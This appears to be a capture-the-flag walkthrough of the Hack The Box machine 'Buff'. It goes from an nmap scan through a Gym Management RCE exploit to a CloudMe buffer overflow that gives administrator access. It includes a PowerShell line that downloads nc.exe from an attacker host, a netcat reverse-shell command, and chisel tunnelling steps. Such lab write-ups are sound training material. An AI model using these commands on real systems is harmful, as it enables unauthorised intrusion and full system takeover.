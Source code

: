 ## Buff

### Nmap Scanning

__Top 1000 ports scan__

```bash
$ nmap -sC -sV -Pn -oN nmap/buff  10.10.10.198
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-11 15:52 EDT
Nmap scan report for 10.10.10.198
Host is up (0.097s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.57 seconds
```

## Enumeration

- Webserver running on port 8080
- Homepage

![homepage](images/homepage.PNG)

- Found a RCE exploit on searchsploit

![gym_management](images/gym_management.PNG)

```bash
$ searchsploit Gym Management          
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection              | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass           | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting     | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Exe | php/webapps/48506.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Exploitation

```bash
─$ python 48506.py http://10.10.10.198:8080/                                           255 ⨯
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:11    <DIR>          .
11/09/2021  21:11    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
               1 File(s)             53 bytes
               2 Dir(s)   7,121,997,824 bytes free

C:\xampp\htdocs\gym\upload> 
```

- upgrading the shell using netcat

```bash
C:\xampp\htdocs\gym\upload> powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://10.10.14.12/nc.exe','nc.exe')
�PNG
�

C:\xampp\htdocs\gym\upload> dir
�PNG
�
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:27    <DIR>          .
11/09/2021  21:27    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
11/09/2021  21:27            59,392 nc.exe
               2 File(s)         59,445 bytes
               2 Dir(s)   7,440,818,176 bytes free

C:\xampp\htdocs\gym\upload> .\nc.exe -e cmd.exe 10.10.14.12 9001
```

__Result__

```bash
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.198] 49912
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\xampp\htdocs\gym\upload

11/09/2021  21:27    <DIR>          .
11/09/2021  21:27    <DIR>          ..
11/09/2021  21:11                53 kamehameha.php
11/09/2021  21:27            59,392 nc.exe
               2 File(s)         59,445 bytes
               2 Dir(s)   7,441,637,376 bytes free

```

## Privilege escalation

- found a binary `cloudme.exe`

```bash
C:\Users\shaun\Downloads>dir 
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  13:27    <DIR>          .
14/07/2020  13:27    <DIR>          ..
16/06/2020  16:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,774,461,952 bytes free
```
- searchsploit resulted in `BOF` exploit (Firstone)

```
$ searchsploit cloudme                                                                  1 ⨯
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                      | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)             | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)             | windows/local/48840.py
Cloudme 1.9 - Buffer Overflow (DEP) (Metasploit)            | windows_x86-64/remote/45197.rb
CloudMe Sync 1.10.9 - Buffer Overflow (SEH)(DEP Bypass)     | windows_x86-64/local/45159.py
CloudMe Sync 1.10.9 - Stack-Based Buffer Overflow (Metasplo | windows/remote/44175.rb
CloudMe Sync 1.11.0 - Local Buffer Overflow                 | windows/local/44470.py
CloudMe Sync 1.11.2 - Buffer Overflow + Egghunt             | windows/remote/46218.py
CloudMe Sync 1.11.2 Buffer Overflow - WoW64 (DEP Bypass)    | windows_x86-64/remote/46250.py
CloudMe Sync < 1.11.0 - Buffer Overflow                     | windows/remote/44027.py
CloudMe Sync < 1.11.0 - Buffer Overflow (SEH) (DEP Bypass)  | windows_x86-64/remote/44784.py
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

- We need to forward the running service on port `8888` from victim machine to our kali.

- For this we use `chisel` [Github](https://github.com/jpillora/chisel/releases).

<hr>
Chisel is a fast TCP/UDP tunnel, transported over HTTP, secured via SSH. Single executable including both client and server. Written in Go (golang). Chisel is mainly useful for passing through firewalls, though it can also be used to provide a secure endpoint into your network.

<hr>




- on kali, tunnel the traffic to connected client on port `9002`

```bash
$ ./chisel server --reverse --port 9002
2021/09/11 17:15:40 server: Reverse tunnelling enabled
2021/09/11 17:15:40 server: Fingerprint yRzWStcIB8E8d/UkCTub+Os1Qnhcm3ePt0JuZOWmTus=
2021/09/11 17:15:40 server: Listening on http://0.0.0.0:9002
2021/09/11 17:18:32 server: session#5: tun: proxy#R:8888=>localhost:8888: Listening
```


- on victim machine, tunnel all traffic to chisel server to port  `9002` of local service running on port `8888`

```bash
C:\xampp\htdocs\gym\upload>.\chisel.exe client 10.10.14.12:9002  R:8888:localhost:8888
.\chisel.exe client 10.10.14.12:9002  R:8888:localhost:8888
2021/09/11 22:21:54 client: Connecting to ws://10.10.14.12:9002
2021/09/11 22:21:56 client: Connected (Latency 141.1528ms)

```

- Now change the payload in python program and run the exploit

__Result__

```bash
$ nc -lvnp  9003
listening on [any] 9003 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.198] 49941
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```


